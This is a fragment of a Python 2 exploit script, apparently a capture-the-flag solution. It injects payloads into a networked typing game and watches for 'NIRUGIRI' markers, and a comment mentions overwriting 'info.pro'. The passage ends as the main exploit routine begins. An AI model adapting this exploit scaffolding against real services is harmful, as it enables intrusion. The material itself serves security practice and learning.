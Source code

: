 ```exploit.py
    custom(pay)

  while True:
    hoge("play")
    for _ in range(3):
      c.recvuntil("[TYPE]")
      c.recvline()
      msg = c.recvline().rstrip()
      if "NIRUGIRI" in msg:
        found = True
        res = msg
        if append_nirugiri:
          c.sendline("NIRUGIRI"+pay)
        else:
          c.sendline(pay)
      else:
        c.sendline(msg)
    c.recvuntil("ENTER")
    c.sendline("")
    if found:
      break      
  
  return res[len("NIRUGIRI"):]

def inject_wait_NIRUGIRI(pay):
  global c
  print "[.] injecting and waiting luck",
  res = ""
  found = False
  aborted = False
  custom(pay)

  while True:
    hoge("play")
    for _ in range(3):
      c.recvuntil("[TYPE]")
      c.recvline()
      msg = c.recvline().rstrip()
      if "NIRUGIRI" in msg:
        print("\n[!] FOUND")
        c.sendline("hey")
        return
      else:
        print ".",
        c.sendline(msg)
    if aborted:
      aborted = False
      continue
    c.sendline("")

## exploit ###########################################

def exploit():
  global c
  global kctf
  MAX_TYPE = 200

  ##############################
  #  LEVEL 1                   #
  ##############################
  # overwrite info.pro
  play_clear()
  c.recvuntil("ENTER")
```